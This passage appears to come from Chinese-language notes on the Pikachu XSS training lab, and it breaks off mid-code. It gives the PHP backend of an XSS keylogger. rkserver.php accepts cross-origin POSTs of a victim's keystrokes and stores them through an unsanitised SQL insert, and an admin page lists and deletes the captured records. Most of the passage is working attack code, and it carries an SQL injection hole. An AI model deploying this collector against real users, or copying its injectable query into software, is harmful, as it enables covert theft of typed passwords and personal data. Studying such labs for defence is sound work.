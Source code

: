    ```js
   ```

2. `rkserver.php`：接收[受害者]在页面上输入的所有数据

   ```php
   <?php
   include_once '../inc/config.inc.php';
   include_once '../inc/mysql.inc.php';
   $link=connect();
   
   //设置允许被跨域访问
   header("Access-Control-Allow-Origin:*");
   
   $data = $_POST['datax'];
   $query = "insert keypress(data) values('$data')";
   $result=mysqli_query($link,$query);
   ?>
   ```

3. `pkxss_keypress_result.php`：管理获取的数据

   ```php
   <?php
   // error_reporting(0);
   include_once '../inc/config.inc.php';
   include_once '../inc/mysql.inc.php';
   $link=connect();
   
   // 判断是否登录，没有登录不能访问
   if(!check_login($link)){
       header("location:../pkxss_login.php");
   }
   
   if(isset($_GET['id']) && is_numeric($_GET['id'])){
       $id=escape($link, $_GET['id']);
       $query="delete from keypress where id=$id";
       execute($link, $query);
   }
   ?>
   
   <html>
   <head>
   <meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
   <title>键盘记录结果</title>
   <link rel="stylesheet" type="text/css" href="../antxss.css" />
   </head>
   <body>
   <div id="title">
   <h1>pikachu Xss 获取键盘记录结果</h1>
   <a href="../xssmanager.php">返回首页</a>
   </div>
   <div id="xss_main">
   <table border="1px" cellpadding="10" cellspacing="1" bgcolor="#5f9ea0">
       <tr>
           <td>id</td>
           <td>记录</td>
           <td>操作</td>
       </tr>
       <?php 
       $query="select * from keypress";
       $result=mysqli_query($link, $query);
       while($data=mysqli_fetch_assoc($result)){
   $html=<<<A
       <tr>
           <td>{$data['id']}</td>
   ```